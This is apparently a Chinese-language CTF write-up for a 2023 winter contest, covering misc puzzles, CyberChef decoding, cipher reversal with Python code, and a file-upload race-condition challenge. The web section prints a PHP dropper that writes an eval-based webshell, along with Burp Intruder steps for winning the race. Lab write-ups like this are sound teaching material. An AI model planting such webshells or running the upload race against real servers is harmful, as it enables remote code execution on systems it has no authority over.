



# 23破晓冬季赛

## misc

### 猫娘问答

第一问


百度搜索一下，得到结果469


第二问


打开破晓的github仓库，点击复制得到答案

```
c9376fd461e00f3e1899a4435839691b7aed3de8
```


第三问


搜索一下


得到答案曼特农夫人


最后答案为弗朗索瓦丝·多比涅

第四问


这个答案在一篇文章里[RFC5841 中文翻译 中文RFC RFC文档 RFC翻译 RFC中文版 (rfc2cn.com)](https://rfc2cn.com/rfc5841.html)

找到RST的包为冷漠


所以最后答案为:|

所有答案上传后得到flag


### 蟹皇堡秘方

打开得到两个附件


打开擦看


这种格式很眼熟


小厨子导出的就是这种格式

那就可以猜测另一个就是加密过的蟹黄包

我们要做的就是反解密

手搓？必然不可能

首先利用厨子里的reverse进行颠倒


加密是to，解密就是from，直接替换


然后有几个特殊的加密

1.Zlib_Deflate('Dynamic Huffman Coding')
在厨子里面搜索一下


Zlib_Deflate是加密，那么Zlib_Inflate就是解密


这样看就舒服了，查看一下厨子怎么表示这个解码


复制替换一下

2.ROT加密



比如这里的ROT47（40），这是加密，那解密是啥呢，是ROT47(54)，分析一下就是

如果加密是ROTa（b），那么解密就是ROTa【a+（a-b）】所以这里的40要换成54

后面的

就要换成ROT13(true,false,false,11)

3.DES加密


这个需要将加密DES_Encrypt换成解密DES_Decrypt


4.Vigenère加密


这个也是搜索一下进行替换Decode



5.AES加密


一样搜索替换Decrypt


现在将其导入进行解密


开始做饭，希望别炒糊了

得到flag、


### esrever

下载附件

打开看一下，还是乱码，但是看到了熟悉的东西


GNP=PNG

这就简单了厨子反转一下


导出为图片


扫码查看一下


得到字符串}fehcrebyc_esu_uoy_tnod_yhw{galf

再次反转


得到flag

## Crypto

### 签到

打开附件


有==应该是base64

放入进行解码

发现解不出来，反过来试试？


出现了一半，试一下是哪一半


那这一半解出来了

试一下另一半


发现不太对，再看看发现漏了两个==，加上试试


出现了另外一半，拼在一起试试，


得到flag

### 变异凯撒

下载附件分析


这段代码的作用是对一个字符串进行加密，然后输出加密后的结果。让我们一步步来分析：

1. `flag = ""`: 定义了一个空字符串 `flag`，这将是要加密的原始字符串。
1. `ascii_values = [ord(char) - 5 for char in flag]`: 创建了一个列表 `ascii_values`，其中包含了字符串 `flag` 中每个字符的ASCII值减去5的结果。
1. `for i in range(len(ascii_values)):`: 开始一个循环，遍历 `ascii_values` 列表中的每个元素。
1. `if (i + 1) % 2 != 0:`: 如果当前元素的索引是奇数（基于1的索引），则执行以下操作：
   - `ascii_values[i] -= 2`: 将当前元素的值减去2。
   - `else:`: 如果当前元素的索引是偶数，则执行以下操作：
   - `ascii_values[i] += 2`: 将当前元素的值加上2。
1. `ascii_values[i] += 5`: 无论索引是奇数还是偶数，最后都将当前元素的值加上5。
1. `en_flag = ''.join(chr(value) for value in ascii_values)`: 将修改后的 `ascii_values` 转换为字符，形成一个新的字符串 `en_flag`。
1. `print(en_flag)`: 打印加密后的字符串 `en_flag`。

根据给定的代码，加密后的字符串是：`{ccdd329`;2:3/bc45+92d7//817+g2:`857_}ecjh`

然后构建解密代码

```python
en_flag = "{ccdd329`;2:3/bc45+92d7//817+g2:`857_}ecjh"

ascii_values = [ord(char) - 5 for char in en_flag]

for i in range(len(ascii_values)):
    if (i + 1) % 2 != 0:
        ascii_values[i] += 2
    else:
        ascii_values[i] -= 2
    ascii_values[i] += 5

a = ''.join(chr(value) for value in ascii_values)

flag = a[::-1]
print(flag)

#flag{a576b84e-5361-9b47-36ad-5849b741fbea}
```

得到flag

解法2：gpt秒了

## WEB

### 上传？上传！

打开实例，看出来文件上传


先随意上传一个图片码


发现先提示上传成功，然后后台对上的文件进行分析判断，判断上传的文件不符合要求然后被删除

这里用到的是条件竞争的上床方式，就是上传一个a网页，利用a网页生成一个b网页，b网页里包含了一个webshell，文件上传后后台会先进行分析再删除，在没有被删除的这个时间里，a网页是可以被访问的，一旦被访问就会生成b网页，但是分析在删除的时间是非常快的，所以我们要一直上传，上传的同时进行访问。

a.php里面构建，

```
<?php
	$file=fopen("b.php","w");
	$string='<?php @eval($_POST["mqy"]);成功 ?>';
	fwrite($file,$string);
	fcolse();
?>
```

代码的大体内容就是，访问a.php生成b.php，b.php里面包含

```
<?php @eval($_POST["mqy"]);成功 ?>
```

这里我推荐用bp自带的浏览器，就不用设置代理了



上传进行抓包


将其发送到intruder

再不受影响的位置添加一个数字1


然后进行爆破上传


目的是为了一直发送上传请求

再去访问a.php，也进行抓包


同样发送到intruder

再不受影响的位置添加一个数字1


同样进行设置，一直访问，


很好理解，就是一直上传一直访问，一定有能成功访问的，一旦访问，就能生成网页b

开始执行两个

访问成功后，就会生成b网页，然后利用剑蚁链接，找到flag
